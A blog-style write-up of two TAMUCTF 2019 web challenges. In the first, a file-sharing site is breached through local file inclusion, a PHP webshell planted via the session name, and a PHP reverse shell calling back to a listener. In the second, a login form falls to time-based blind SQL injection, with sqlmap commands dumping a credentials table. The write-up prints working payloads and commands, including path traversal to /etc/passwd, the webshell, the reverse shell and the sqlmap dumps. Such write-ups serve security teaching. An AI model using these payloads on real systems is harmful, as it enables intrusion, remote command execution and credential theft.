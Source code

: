 ```yaml
---
layout: post
title: TAMUCTF - Web Exploitation
excerpt: "I did two web challenges for TAMU CTF and they were mostly applications of standard attacks. The sql inejection was interesting because it was not immediately obvious that it was injectable."
categories: [Writeups, TAMUCTF'19]
tags: [web]
---
```


I did two web challenges for TAMU CTF and they were mostly applications of standard attacks. The sql inejection was interesting because it was not immediately obvious that it was injectable.

#### FILESTORAGE
```
Try out my new file sharing site!

http://filestorage.tamuctf.com
```

When we first go to the site, we are given a box to input our name. As with any website, we just play around with the website and enter a random name. After we enter a name, we are greeted with a page that says there are three items. By clicking on the hello.txt, we see the url becomes `http://filestorage.tamuctf.com/index.php?file=hello.txt` This inclusion clearly looks like a local file inclusion vulnerability.  

We see that we can include `/etc/passwd` by going to the url `http://filestorage.tamuctf.com/index.php?file=../../../../../../etc/passwd` which outputs the content successfully.   Now that we have LFI, where is the flag? After trying common files such as `/flag.txt` and `flag.txt`, I did not find find the flag. My next step was the get a php shell. 

The first thing I checked is if I could access the `/proc` directory which contains information about running processes. By visiting `http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/cmdline` we confirm that we have access to the `/proc` folder. The next step was to enumerate through the `/proc/self/fd/#` directory to see if we could include some php code. I wrote this quick script to enumerate through the directory making sure to include the cookie `PHPSESSID` otherwise the file would not load.
```python
import requests  
  
cookies = {'PHPSESSID': 'copjc75a4klhenr59g98enqm74'}  
  
for i in range(0, 10000):  
  
r = requests.get('http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/fd/' + str(i), cookies  
=cookies)  
  
print('req ' + str(i))  
print(r.text)
```

Looking at the output, it seemed like `http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/fd/9` the output  of the page was `name|s:6:"redpwn";` It seems like our serialized session can be accessed from `/proc/self/fd/9`. Now we have a vector to include a php shell.

By setting our name to `<?php passthru($_REQUEST['c']); ?>` we can include a php webshell. Now if we visit `http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/fd/9&c=ls` we are able to run arbitrary commands on the server. A quick `ls -la /` shows a directory named `flag_is_here` which contains `flag.txt`. We get the flag by catting this file. The complete final payload was `http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/fd/9&c=cat%20/flag_is_here/flag.txt`.

This method was using a php webshell, but is it possible to get a full reverse shell? A similar approach to the php shell can we taken, we just need to run some php which will launch a reverse shell to our server. The payload which I used was `<?php $sock = fsockopen("ip",port);$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>` where the ip and port is a serrver we control.  Before we execute this php, we need to listen on our server. The command to setup a listening server is `nc -nvlp port` 

After we have our server listening, we can run the php code by visiting `http://filestorage.tamuctf.com/index.php?file=../../../../../../proc/self/fd/9`. On our server, we recieve a new connection from the webserver and we now have a full reverse shell. Now we can run the same commands `ls /` and `cat /flag_is_here/flag.txt`

#### PASSWORD_EXTRATOR
```
The owner of this website often reuses passwords. Can you find out the password they are using on this test server?

http://passwordextraction.tamuctf.com
```

When we first visit the site, we see that there is a form with a login and password. The first thought is that there is a sql injection. The title hints towards extracting the password, however I just wanted to test an auth bypass with the standard `' OR 1=1--` .  Normally, this would allow me to authenticate as a user and indicates that SQL injection is an attack vector. However, for this website all I recieved was `Invalid login info`.

Looking at the requests being made, the form submitted to `http://passwordextraction.tamuctf.com/login.php`  with parameters `username` and `password`. I wasn't sure what to do so I launched sqlmap. SQLMap can be found from this git repository `https://github.com/sqlmapproject/sqlmap`.

The first command was to see if the website was vulnerable. It is a post request and the `*` represents parameters to test for injection.
```
./sqlmap.py -u http://passwordextraction.tamuctf.com/login.php --method POST --data="username=*&password=*" --risk=3
```
SQLMap found a vulnerability in a time based injection. The payload used was 
```
' AND (SELECT 9235 FROM (SELECT(SLEEP(5)))yzuo) AND 'E
```

From here, we can just extract data from the database and find the flag. First we list all databases.
```
./sqlmap.py -u http://passwordextraction.tamuctf.com/login.php --method POST --data="username=*&password=*" --risk=3 -dbs
```

We see there is a non-default database named `db`, so we want extract the tables.

```
./sqlmap.py -u http://passwordextraction.tamuctf.com/login.php --method POST --data="username=*&password=*" --risk=3 -D db -tables
```

We see there is a table named `accounts` and want to dump all the information in it.

```
./sqlmap.py -u http://passwordextraction.tamuctf.com/login.php --method POST --data="username=*&password=*" --risk=3 -D db -T accounts --dump
```

The extract data yields the admin user and its password, which is the flag.

Interestingly, I was curious as to why my authentication payload did not work so I went back to the main website and testsed with the credentials I extracted. I was surprised to see the same `Invalid login info.` It seems like if the autentication was successful, the page displayed was the same which is why I didn't realize the site was even vulnerable after testing with the authentication bypass payload. However, when I used the command from SQLMap, the page loaded after a couple of seconds, indicating that the time based injection had worked. This is interesting to note for the future because even though there was initially no clear indication that sql injection was an attack vector, however it was still vulnerable with a different attack type.
